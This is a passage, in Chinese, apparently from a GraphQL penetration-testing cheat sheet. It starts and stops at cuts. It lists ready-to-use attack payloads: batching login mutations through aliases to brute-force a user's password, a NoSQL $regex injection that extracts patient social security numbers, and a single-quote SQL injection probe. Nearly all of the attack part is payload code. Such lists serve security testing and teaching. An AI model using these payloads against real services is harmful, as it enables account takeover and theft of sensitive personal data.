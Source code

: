 ```json
```

#### 基于查询名称的批量处理

```json
{
    "query": "query { qname: Query { field1 } qname1: Query { field1 } }"
}
```

使用别名多次发送相同的突变

```js
mutation {
  login(pass: 1111, username: "bob")
  second: login(pass: 2222, username: "bob")
  third: login(pass: 3333, username: "bob")
  fourth: login(pass: 4444, username: "bob")
}
```

## 注入

> SQL 和 NoSQL 注入仍然是可能的，因为 GraphQL 只是客户端与数据库之间的中间层。

### NOSQL 注入

在 `search` 参数中使用 `$regex`。

```js
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```

### SQL 注入

在 GraphQL 参数中发送单引号 `'` 以触发 SQL 注入。

```js
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```

在 GraphQL 字段中的简单 SQL 注入。
